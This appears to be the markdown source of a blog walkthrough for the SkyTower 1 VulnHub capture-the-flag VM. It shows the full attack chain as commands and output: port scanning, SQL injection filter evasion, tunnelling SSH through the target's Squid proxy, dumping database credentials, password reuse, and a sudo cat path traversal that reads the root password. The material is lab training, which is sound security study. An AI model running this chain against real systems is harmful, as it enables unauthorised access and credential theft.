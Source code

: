 ```yaml
---
layout: blog_item
title:  "SkyTower - Walkthrough"
date:   2024-03-20 15:00:60
author: Dhruv Ambaliya
description: 'SkyTower 1, a VulnHub CTF Walkthrough Guide'
categories: [walkthroughs]
tags:
- CTF
---
```


<div class="coffee-rating">
<table>
      <tbody>
        <tr>
           <td>
               <p><code>Difficulty Rating:</code></p>
           </td>
           <td>
               <p><i class="fa fa-coffee">Intermediate</i></p>
           </td>
        </tr>
      </tbody>
</table>
</div>

* list element with functor item
{:toc}

## Author Description

This CTF was designed by Telspace Systems for the CTF at the ITWeb Security Summit and BSidesCPT (Cape Town). The aim is to test intermediate to advanced security enthusiasts in their ability to attack a system using a multi-faceted approach and obtain the "flag".

You will require skills across different facets of system and application vulnerabilities, as well as an understanding of various services and how to attack them. Most of all, your logical thinking and methodical approach to penetration testing will come into play to allow you to successfully attack this system. Try different variations and approaches. You will most likely find that automated tools will not assist you.

**Author:** Telspace Systems

**Download:** [VulnHub](https://www.vulnhub.com)

## Enumeration

{% highlight bash %}

nmap -v -p 1-65535 -sV -O -sT 10.0.1.114

{% endhighlight %}


### Host Service Enumeration

<div class="mobile-side-scroller">
<table>
  <thead>
    <tr>
      <th>Port</th>
      <th>Service</th>
      <th>Version Detection</th>
    </tr>
  </thead>
      <tbody>
        <tr>
           <td>
               <pc><p><code>TCP: 80</code></p></pc>
           </td>
           <td>
               <pc><p>HTTP</p></pc>
           </td>
           <td>
               <pc><p>Apache httpd 2.2.22 ((Debian))</p></pc>
           </td>
        </tr>

        <td>
            <pc><p><code>TCP: 3128</code></p></pc>
        </td>
        <td>
            <pc><p>http-proxy</p></pc>
        </td>
        <td>
            <pc><p>Squid http proxy 3.1.20</p></pc>
        </td>
     </tr>

      </tbody>

</table>
</div>


## Web Application Analysis

The basic test below indicated the web application could be vulnerable to SQL injection.


![SQLi Test](/img/blog/skytower/sqli-test.png)

[SQL Injection](/penetration-testing/web-app/sql-injection/) looked possible + DB identified as MySQL:

![MySQL error](/img/blog/skytower/sqli-error.png)

Enumeration indicated the web application was filtering the SQLi attempts and removing some characters, such as <code>OR</code>. This was overcome (after researching for SQLi filtering evasion) using the following:

![Burp SQLi Evasion](/img/blog/skytower/burp-sqli-evasion.png)

With no direct access to SSH the above credentials could not be leveraged to gain a Shell.

## HTTP Proxy SSH Connection

The following was used to gain access to the SSH server by proxying the connection through the open **SQUID** server on the target machine.

Setup tunnel with proxytunnel:

{% highlight bash %}

[root:~]# proxytunnel -p 10.0.1.114:3128 -d 127.0.0.1:22 -a 4444

{% endhighlight %}

SSH through the HTTP tunnel:

{% highlight bash %}
[root:~]# ssh john@127.0.0.1 -p 4444  "/bin/sh"
john@127.0.0.1's password:

id
uid=1000(john) gid=1000(john) groups=1000(john)
{% endhighlight %}

<code>/bin/sh</code> needed to be postfixed to the end of the SSH command, as the server appeared to kick connections upon connection.

## Local Enumeration

Enumeration as the user John discovered the MySQL root credentials:

{% highlight bash %}

$ cat login.php
<?php

$db = new mysqli('localhost', 'root', 'root', 'SkyTech');

{% endhighlight %}

## MySQL Credentials

The following process was used to disclosed the users credentials:

{% highlight bash %}
$ mysql -u root -p
Enter password: root
show databases;


\q
Database
information_schema
SkyTech
mysql
performance_schema
$ mysql -u root -p SkyTech
Enter password: root
show tables;
\q
Tables_in_SkyTech
login



mysql -u root -p SkyTech
Enter password: rootroot
ERROR 1045 (28000): Access denied for user 'root'@'localhost' (using password: YES)
mysql -u root -p SkyTech
Enter password: root
select * from login;
\q
id    email    password
1    john@skytech.com    hereisjohn
2    sara@skytech.com    ihatethisjob
3    william@skytech.com    senseable
{% endhighlight %}

## Privilege Escalation - Password Reuse

Password reuse for the user <code>sara</code> was possible using the previously discovered credentials.

{% highlight bash %}

[root:~]# ssh sara@127.0.0.1 -p 4444 -t  "/bin/sh"
sara@127.0.0.1's password:
$ sudo -l
Matching Defaults entries for sara on this host:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User sara may run the following commands on this host:
    (root) NOPASSWD: /bin/cat /accounts/*, (root) /bin/ls /accounts/*
{% endhighlight %}

The user **sara** had sudo access to the binary <code>/bin/cat</code>, path traversal was used to cat the contents of <code>/root/flag.txt</code> which contained the root password.

{% highlight bash %}

$ sudo /bin/cat /accounts/../root/flag.txt
Congratz, have a cold one to celebrate!
root password is theskytower
$

{% endhighlight %}

### Getting root:

With the previously discovered credentials it was possible to <code>su -</code> to root:

{% highlight bash %}

$ su -
Password:
root@SkyTower:~# id
uid=0(root) gid=0(root) groups=0(root)
root@SkyTower:~# cat flag.txt
Congratz, have a cold one to celebrate!
root password is theskytower
root@SkyTower:~#

{% endhighlight %}

## Conclusion

I enjoyed the SQL injection filtering evasion, overall a short CTF that can easily be done in an evening.    

Thanks for the VM :)
